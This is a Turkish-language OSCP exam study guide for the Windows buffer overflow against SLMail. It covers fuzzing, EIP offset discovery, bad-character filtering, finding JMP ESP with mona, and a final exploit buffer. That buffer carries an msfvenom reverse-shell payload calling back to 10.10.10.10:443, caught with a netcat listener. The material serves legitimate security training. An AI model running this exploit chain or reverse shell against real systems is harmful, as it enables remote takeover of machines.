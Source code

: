 # BOF Windows
> OSCP sınavı BOF adımları

## Overview
uygulamayı analiz etmek için 3 method vardır.
* Kaynak kod analizi
* Reverse engineering
* Fuzzing

## Fuzzing

SLMail uygulaması için ornek fuzzing

for @ ("A"*30)

#### Hangi Karakterde patladığını bulma

- Uygulamayı admin olarak aç
- Immumity Debugger ı aç
- File > Attach SLmail OK
- (optional) Font değişikliği: Sağ tık > Appearance > Font > OEM fixed
- (optional) Hex 8->16 byte: Sağ tık > Hex > Hex/ASCI 16 bytes

Immumity debugger defaultta stop durumdadır. 
- Start'a tıklanır >
- Fuzzing script çalıştırılır.
- App crash olur, debugger durur.
- Fuzzing script hangi byte da crash olduguna gore script duzenlenebilir.

> Not: OSCP sınavında poc.py kodu verilmektedir. Buraya kadarki kısım ozet BOF anlatımı içindir.


## Crash Replication

```
buffer = 'A'*2700
```

**NOT: Uygulama her seferinde task manager dan kapatılmalı ve immunity debuuger a attach edilmelidir.**

## Controlling EIP (OSCP Soru Baslangic)

Kali:
```
locate pattern_create
/usr/share/metasploit-framework/tools/pattern_create.rb 2700
```

- Bu karakterler serisi alınır ve poc kodu degistirilir: 

```
buffer = '<kopyalananSeri>'
```

- Exploit kodu çalıştırılır ve EIP'deki deger alınır

Kali:
```
/usr/share/metasploit-framework/tools/pattern_offset.rb <EIPdeger>

Dönen Örnek Cevap:

Offset 2606
```

POC.py`değiştirilir.
```
buffer = 'A'*2606 + 'B'*4 + 'C'*90
```
Not: 90 olması toplamda 2700 yapmak icin.

- Uygulama tekrar attach edilir. 
- EIP register 42424242 olmalı, yani BBBB.

Buraya kadar OK ise, devam edilir. EIP BBBB olmadıysa işlem tekrar yapılır.

## Introducing Shellcode

- ESP > Sağ tık > Follow in Dump

![Follow Dump ESP](pictures/pic1.png)

Change Code:
```
buffer = 'A'*2606 + 'B'*4 + 'C'*(3500-2606-4)
```

Kaç byte bosluk oldugunu gormek icin aşağıdaki resimdeki gibi C'lerin sonuna bakılabilir.

![Shell code Boşluk](pictures/pic2.png)

## Bad Characters

POC.py editlenir:

** BadChars Kontrol Dizisi **
```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

```
buffer = 'A'*2606 + 'B'*4 + badchars
```

- Bu şekilde kod çalıştırılır. 
- ESP follow yapılır.

Not: 00 null bytes'dır default'ta.

- Aşağıdaki gibi diziyi bozan karakterler code'dan sırayla çıkartılarak bu işlem sonuna kadar devam ettirilir.

![Bad Characters](pictures/pic3.png)

- Bu ornekte /x0a badcharacters'dir. 
- Flow u bozan bütün bad characters ler silinir. /x00, /x0a, /x0d
- Sadece kendisinden sonra gelenleri bozan karakterler değil, kendisini göstermeyip gerisini düzgün gösteren karakterler de silinir.

## Redirecting Execution

Statik ESP adresi iyi bir çözüm değildir bu yüzden ESP'yi daha akıllıca değiştirmemiz lazım.

### Introducing Mona

** JMP ESP Bulma **

Mona modules ile dll'ler bulunur. Bu DLL ler bulunurken bir kaç kriter vardır.

![Mona modules](picture/pic4.png)

```
!mona modules
```

Kriter'ler:
- Safeseh, aslr, rebase, nxcompat false olmalı
- Null bytes ile başlamamalı
- bad characters olmamalı.

buradan ilgili .dll dosyası bulunur.

- Executable module list'e tıklanır. (e)
- Module list (m)

- ilgili .dll dosyası bulunur ve çift tıklanır.
- Immunity Debugger baslik ilgili DLL oldugu gorulur.

![executable module list](pictures/pic5.png)

** JMP ESP ** bulmak için mona dan yararlanmak mantıklı.

![Find Jmp Esp](pictures/pic6.png)

JMP ESP -> FFE4

```
!mona find -s '\xff\xe4' -m <dllfile>
```

For example: 5F4A358F

Edit the POC code:

```
buffer = 'A'*2606 + '\x8f\x35\x4a\x5f' + 'C'*(3500-2606-4)
```

Immunity Debugger da F2 ye basarak ESP başına breakpoint koyabiliriz.

F8 ile devam ettiğimizde kodun ESP başına INC EBX e gittiğini görebiliriz. Burada istenilen kod çalıştırılabilir.

## Shellcode

Create shell code:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

eğer çalışmaz ise encode aşağıdaki gibi değiştirilebilir.

```
 -e x86/fnstenv_mov
```

Shellcode POC koda yapıstirilir ve code asağıdaki gibi değiştirilir.

```
shellcode = ("kod")

buffer = 'A'*2606 + '\x8f\x35\x4a\x5f' + '\x90'*16 +shellcode + 'C'*(3500-2606-4-351-16)
```

POC kodu atak makinada çalıştırılır ve lport dinlenir. (nc -nvlp 443)

shell gelir.
